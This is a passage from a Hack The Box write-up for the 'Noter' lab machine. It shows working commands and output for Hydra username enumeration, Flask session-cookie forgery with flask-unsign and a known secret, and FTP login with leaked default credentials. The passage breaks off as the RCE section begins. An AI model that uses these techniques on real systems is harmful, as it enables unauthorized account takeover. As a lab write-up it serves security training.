 ### Enumerating users

After a while I found something. Looks like the login page can be used to leak usernames already registered in the page, the error message is `Invalid credentials` if the user does not exists and `Invalid login` if the user exists but the password is wrong.

Using Hydra to search for valid users I got that there is indeed another user registered in the page (I used a dummy password):

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/HTB/Noter]
└─$ hydra -L /usr/share/wordlists/metasploit/namelist.txt -p 123 10.10.11.160 -s 5000 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"   
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-27 10:53:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1909 login tries (l:1909/p:1), ~120 tries per task
[DATA] attacking http-post-form://10.10.11.160:5000/login:username=^USER^&password=^PASS^:Invalid credentials
[5000][http-post-form] host: 10.10.11.160   login: blue   password: 123
[5000][http-post-form] host: 10.10.11.160   login: raptor   password: 123
[STATUS] 1572.00 tries/min, 1572 tries in 00:01h, 337 to do in 00:01h, 16 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-05-27 10:54:27
```

### Forging cookies

Since we found that `blue` is a valid user and also know the cookie secret we should be able to forge a new cookie to login as this user:

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/HTB/Noter]
└─$ flask-unsign --sign --cookie "{'logged_in':True,'username':'blue'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YpDo4w.-__pw4id5OTjiaD9PgwafrOD6Y4
```

Replacing our session cookie for the generated one we are now logged in as `blue`! Looks like its a prenium user and can upload notes, this could be handy later. Also, it is possible to find another username: `ftp_admin` and `blue` credentials for the FTP server: `blue:blue@Noter!`. In the FTP server, I found a PDF file that explain that all the accounts password are generated following this schema: `username@site_name!` and that this default password should be changed.

There is a reminder about changing the admin password in `blue` account so maybe the default password is still in place. I tried to login to the FTP service using `ftp_admin:ftp_admin@Noter!` as credentials and I got access as `ftp_admin`! There are backups of the application so time to analyze the code.

### RCE

The most recent app backup is the one that contains all the application endpoints we saw in the live app. After a while I found something interesting in the `/export_note_remote` endpoint:
